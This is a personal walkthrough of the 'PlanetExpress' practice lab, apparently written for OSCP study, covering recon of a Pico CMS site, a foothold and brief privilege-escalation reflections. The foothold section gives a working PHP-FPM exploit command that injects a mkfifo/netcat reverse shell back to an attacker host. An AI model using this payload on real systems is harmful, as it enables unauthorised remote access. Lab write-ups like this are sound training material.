 # PlanetExpress Walkthrough
Name: PlanetExpress
Date:  20/9/2022
Difficulty:  Easy
Goals:  OSCP
Learnt: 
- `/usr/share/seclists/Discovery/Web-Content/quickhits.txt`
- I need make a dictionary of wordlists and flowchart of wordlists per situation - Instill questions of methodology
- Metacognitive Linux enlightment through SUID exploit that was more than just a GTFObins  

Had a rough day so my recon not very well as I tripped up recursively thinking about how my recon was doing, but feroxbuster had already found the /.git that has the vulnerable Pico (had the github opne) and I already searchsploited; so really my attitude and the lack of personal mentalised cleaning of previous events of the day really busted this one.  I also did not connect PHP -> PIco therefore varient of phpmyadmin.php

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

Pico CMS Version - ?

![](csrf.png)

![950](fh5co-header-subscribe.png)

This is where I tripped up. I did not patiently check the source of Pico for the config directory.

![](config-yml.png)

## Exploit && Foothold
[Fastcgi PHP-FPM Client && Code Execution](https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75)
```bash
# Has to be port 80
python3 fpm.py -c "<?php passthru('rm -f /tmp/x; mkfifo /tmp/x; /bin/sh -c \"cat /tmp/x | /bin/sh -i 2>&1 | nc $LHOST 80 > /tmp/x\"'); ?>" -p 9000 $target-ip /var/www/html/planetexpress/plugins/PicoTest.php
# The first flag
cat /home/astro/local.txt
```

## PrivEsc

Ran LinEnum.sh and some manual PrivEsc commands, had a more metacognitive moment of connecting file permissions - binary - suid bit and as followed the walkthrough explore how to think about the suid binary exploit